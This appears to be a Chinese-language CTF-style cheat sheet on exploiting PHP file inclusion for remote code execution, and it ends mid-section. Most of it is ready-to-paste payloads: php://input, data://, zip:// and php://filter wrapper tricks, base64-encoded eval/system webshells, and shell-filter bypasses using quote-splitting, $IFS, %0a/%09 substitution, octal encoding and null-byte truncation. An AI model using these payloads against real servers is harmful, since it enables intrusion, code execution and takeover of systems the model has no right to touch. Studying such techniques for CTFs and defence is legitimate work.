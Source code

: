 
RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统

## 文件包含

文件源代码中有include函数，将会解析所含文件，然后再将其执行

文件包含漏洞可以分为LFl (Local File Inclusion本地文件包含)和RFI(Remote File Inclusion，远程文件包含）两种。而区分二者最简单的办法就是通过查看php.ini中是否开启了allow_url_include。如果开启就有可能包含远程文件。

远程文件包含需要php.ini中allow_url_include=on, allow_url_fopen = on。在php.ini中，allow_url_fopen默认一直是on，而allow_url_include从php5.2之后就默认为Off。

allow_url_fopen参数（只影响RFI，不影响LFI）

简介：是否允许将URL（HTTP，HTTPS等）作为文件打开处理

allow_url_include参数（只影响RFI，不影响LFI）
简介：是否允许includeI()和require()函数包含URL（HTTP，HTTPS）作为文件处理

**将以下示例设法放入include中**

**php://input**
是个可以访问请求的原始数据的只读流。可以接收post请求作为输入流的输入，将请求作为PHP代码的输入传递给目标变量，以达到以post的形式进行输入的目的

data为
```
<?php eval("system('ls');")?>
```

 **php://filter**
php://filter可以作为一个中间流来处理其他流。

**data://**
 ```
data://,<?phpprint_r(scandir(/var/www));?>

?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJkaXIiKTs/Pg==

使用base64时，不能出现加号，需要换函数执行

```

# zip://
当我们上传一个zip文件至服务器，当通过zip://协议解析这个压缩文件，索引到某个文件
```
?fp=zip://uploads/xxxx.png%231&shell=phpinfo();

xxx.png(zipfile)
- 1.php(phpfile) => "<php? eval($_GET['shell']);?>"
```
 
名称	                                            描述
resource=<要过滤的数据流>	这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>	该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>	该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>	任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。


使用实例

解码：
```
php://filter/read=convert.base64-encode/resource=flag.php（.php根据实际情况添加)

php://filter/read=string.strip_tags/resource=php://input

php://filter/read=string.rot13/resource=flag.php

php://filter/read=string.toupper/resource=flag.php

php://filter/read=string.tolower/resource=flag.php
```

写码绕过：
```
?filename=php://filter/convert.base64-decode/resource=1.php&content=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==

(base64字段为<?php exit; ?>)

?filename=php://filter/write=string.rot13/resource=2.php&content=<?cuc riny($_CBFG[n]);

?filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=3.php&content=?>PD9waHAgZXZhbCgkX1BPU1RbYV0pOw==

```

##### convert.\*过滤器
```
?filename=php://filter/convert.iconv.a.b/resource=check.php
(对a，b进行爆破，)

例如：
convert.iconv.UCS-4*.UCS-4BE   --->  将指定的文件从UCS-4*转换为UCS-4BE 输出
```

**日志**
[日志中的文件包含](./日志.md)

## 常见文件
show.php、upload.php、home.php

# 绕过

```
当cat被过滤时，可以通过双引号、单引号、shell特殊字符绕过
例如：ca""t , ca''t , ca$@t,ca\t  /bin/c?? c?t（通配符）

或
more ./*|grep fla
more:一页一页的显示档案内容

less:与 more 类似 head:查看头几行

tac:从最后一行开始显示，可以看出 tac 是cat 的反向显示

tail:查看尾几行

nl：显示的时候，顺便输出行号

od:以二进制的方式读取档案内容

vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看

sort:可以查看

uniq:可以查看 file -f:报错出具体内容 

grep
在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings

mv :移动文件到txt之类的其他文件，直接访问即可

```

```
当空格被过滤时，可以尝试用以下字符替代

< 、<>、%20(space)、%09(tab)、$IFS$9、{cat,fl*}、 ${IFS}、$IFS等

`$IFS`在linux下表示分隔符，但是如果单纯的`cat $IFS2`，bash解释器会把整个IFS2当做变量名，所以导致输不出来结果，因此这里加一个{}就固定了变量名。
同理，在后面加个$可以起到截断的作用，使用$9是因为它是当前系统shell进程的第九个参数的持有者，它始终为空字符串
```

```
当正斜杠和反斜杠都被过滤时，可以通过不断cd进入目录，然后再cat

当所有管道符被过滤时，可以在url地址栏中输入，分号可以用%0a代替，空格可以用%09代替

%0a 是 换行符 (\x0a)
%09 是 TAB键  (\x09)
```

```
八进制ascii码绕过

将字符串全部转换为ascii码

str1=input('请输入字符串：')  
for i in str1:  
    print('\\'+str(oct(ord(i)))[2:],end='')
```

**字符串截断**
```
include($c.".php");对伪协议没有影响，照样可以用data://,<?php ?>进行闭包

用%00 截断(php<5.3.4)

用垃圾字符 . / 进行截断（php版本小于5.2.8）

用? 截断(allow_url_fopen On    allow_url_include On)
```

```
ca$@t${IFS}`find\

find 查看当前及子目录下的所有文件

直接配合内联执行引用find命令特性，然后使用cat查看find列出的文件即可，因为flag就在当前目录
```

## php://input伪协议绕过strstr()函数 
php://input是php语言中一个只读的数据流；通过"php://input"，可以读取从Http客户端以POST方式提交、请求头“Content-Type”值非"multipart/form-data"的所有数据；"php://input"一般用来读取POST上来，除已被处理以外的剩余数据。
因为strstr()函数对大小写敏感，也就是字符串中必须要出现"php://"才会生效，page=PHP://input之类的大写的字母是就可以绕过strstr()函数：把PHP://input的值通过GET方式传入，然后通过POST方式提交执行的命令读取目录文件ls、dir：